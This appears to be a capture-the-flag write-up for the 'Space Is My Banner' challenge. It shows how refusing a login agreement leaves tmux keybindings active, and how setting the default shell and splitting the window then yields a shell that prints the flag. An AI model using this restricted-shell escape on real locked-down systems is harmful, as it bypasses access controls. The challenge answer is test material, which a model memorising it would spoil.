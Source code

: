 # Space Is My Banner

```
I did it again.

This time I'm sure I accessed a satellite.

I'm scared, it's giving me a warning message when I log in.

I think this time I may have gone too far... this seems to be some top security stuff...
socat file:`tty`,raw,echo=0 TCP:chal.sunshinectf.games:25002 
```

Connect to the server, we have an access to tmux. If we accept the `I will not hack` button, the tmux bindings will be unset. However, if we don't accept, we are in a tmux where keybindings are working (you can see that from the banner below, `Hacker Blocker` means we are free, `Protected from Hackers` means we are locked), so we can just:

```shell
# C-b stands for Control-B, the default tmux prefix
C-b : set default-shell /bin/sh
C-b : split-window
# in the newly created shell window
$ ls -al
total 80
dr-xr-xr-x    1 root     root          4096 Sep 27 14:22 .
drwxr-xr-x    1 root     root          4096 Sep 27 16:31 ..
-r-xr-sr-x    1 root     flag-read     18512 Sep 27 14:22 cat-flag
-r-xr-xr-x    1 root     root          5213 Sep 23 20:52 challenge.sh
-r-xr-x---    1 root     root         18592 Sep 27 14:22 drop-perms
-r-xr-xr-x    1 root     root           367 Sep 23 20:52 fake-term.sh
-r--r-----    1 root     flag-read        82 Sep 23 20:52 flag.txt
-r--r--r--    1 root     root          5619 Sep 23 20:52 system_logs.txt
$ ./cat-flag
sun{wait-wait-wait-you-cannot-hack-me-you-agreed-to-not-do-that-that-is-not-fair}
```

Flag: `sun{wait-wait-wait-you-cannot-hack-me-you-agreed-to-not-do-that-that-is-not-fair}`.
